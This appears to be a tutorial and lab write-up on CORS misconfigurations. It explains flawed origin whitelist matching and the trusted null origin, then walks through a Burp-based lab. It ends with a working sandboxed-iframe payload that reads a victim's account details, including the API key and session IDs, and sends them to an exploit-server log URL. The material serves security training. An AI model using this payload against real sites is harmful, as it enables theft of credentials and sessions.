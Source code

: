 This approach enables controlled cross-origin access based on predefined trusted domains. 
### Errors parsing Origin headers - Continued

Implementing CORS origin whitelists can be error-prone. Some organizations aim to allow access from all their subdomains, including the ones that might be created in the future, while others permit access from partner domains and their subdomains. These rules are often enforced using string matching or regular expressions, which can easily be misconfigured and unintentionally allow access to unauthorized domains. 

For instance if an application is configured to allow any domain ending in `normal-website.com`, an attacker could exploit this by registering `hackersnormal-website.com`, which would match the rule. Similarly, if the rule permits domains starting with `normal-website.com`, then `normal-webiste.com.evil-user.net` could be used to bypass restrictions and gain unintended access.

### Whitelisted null origin value

The Origin header specification allows for the value `null`, which browsers may send in several atypical scenarios. These include cross-origin redirects, requests initiated from serialized data, requests using the `file:` protocol, and sandboxed cross-origin requests. 

### Lab: CORS vulnerability with trusted null origin

In Burp's browser, navigate to the lab, log in as `wiener:peter` and go to `/my-account`. Review the __Proxy__ > __HTTP history__ and click the `GET /accountDetails` request. 

_Response:_

```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "YOUR-API-KEY",
  "sessions": [
    "YOUR-SESSION-ID"
  ]
}
```

Observe, that the key is retrieved via an AJAX request and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS. 

Right-click the request and select "Send to Repeater". Set a new header `Origin: null` and click Send. 

Observe, that the "null" origin is reflected in the `Access-Control-Allow-Origin` header. Go to the exploit server and enter the following HTML in the "Body" input:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
